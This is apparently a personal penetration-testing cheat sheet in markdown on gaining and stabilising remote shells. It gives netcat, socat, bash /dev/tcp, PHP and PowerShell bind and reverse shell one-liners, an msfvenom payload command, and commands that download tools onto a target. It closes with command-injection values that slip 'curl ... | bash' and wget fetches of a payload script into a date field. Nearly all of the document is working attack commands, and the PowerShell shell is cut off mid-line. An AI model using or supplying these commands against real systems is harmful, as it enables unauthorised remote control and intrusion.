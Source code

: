 # Shells

It’s not uncommon for host-based firewalls to block access to our bind 
shells. This can be incredibly frustrating at times, especially when under pressure 
and dealing with time constraints. When in doubt, we use a reverse shell as they 
are typically easier to troubleshoot






## Bind Shell
Execute a listener on the Target.

The code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

### Snippets

Target:
`nc -lvnp <PORT> -e /bin/bash`

If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. 
Attacker:
`nc [TARGET IP] <PORT>`

Connecting to the above listener with netcat would result in a bind shell on the target.

Here we are using netcat to make an outbound connection to the target on our chosen port.


#### socat
On a Linux target we would use the following command:
`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes` (We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.)

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`



















## Reverse Shell
require shellcode and a listener

If you choose to use a port below 1024, you will need to use `sudo` when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.


A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.



### Snippets


#### netcat
Tip: use `rlwrap` to provide a readline-style editing of the command line
Ex: `sudo rlwrap nc -lvnp 443`

Target:
`nc [ATTACKER IP] 4444 -e /bin/bash`

Attacker:
`sudo nc -lnvp 4444`






#### socat

`socat TCP-L:<port> -` is equivalent to `nc -lvnp <port>`
On Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` (The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.)



#### msfvenom
Example: generate a reverse shell payload using msfvenom:
`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format


#### Bash
bash -c 'bash -i >& /dev/tcp/[ATTACKER MACHINE IP]/1234 0>&1'

#### PHP - Bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER MACHINE IP]/1234 0>&1'");
may have to scape the quotes
exec(\"/bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER MACHINE IP]/1234 0>&1'\");












## Encrypted Shell

`socat` is capable of creating encrypted shells, both bind and reverse. 
Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.




















### Shell Stabilisation

```
# step 1
python -c 'import pty;pty.spawn("/bin/bash")' # note that some targets may need the version of Python specified
# step 2
export TERM=xterm # this will give us access to term commands such as clear  
# step 3
stty raw -echo; fg # it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

```



```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
# Then press Enter twice, and then enter:
export TERM=xterm
```






It's also useful to be able to change your terminal tty size. First check the current values with: `stty -a` and then change it with `stty rows NUMBER` and `stty cols NUMBER`.



Another way stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.
























## Payloads

<https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/>



On Linux use this code to create a listener for a BIND SHELL:
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

A very similar command can be used to send a netcat REVERSE SHELL:
`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

More on `mkfifo`: <https://www.linuxjournal.com/article/2156>


### Powershell REVERSE SHELL
```pwsh
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$s
```





### User input

1.
echo "/bin/bash -c 'exec bash -i >& /dev/tcp/[Attacker IP]/[Attacker Port] 0>&1'" > payload.sh

...
date=2025-05-09; curl http://10.10.14.8:8002/payload.sh|bash
...

2.
date=2025-05-09;wget+http://10.10.14.8:8002/payload.sh
y luego
date=2025-05-09;bash+payload.sh

3.
date=2025-05-09;bash+-c+'bash+-i+>%26+/dev/tcp/[Attacker IP]/[Attacker Port]+0>%261'





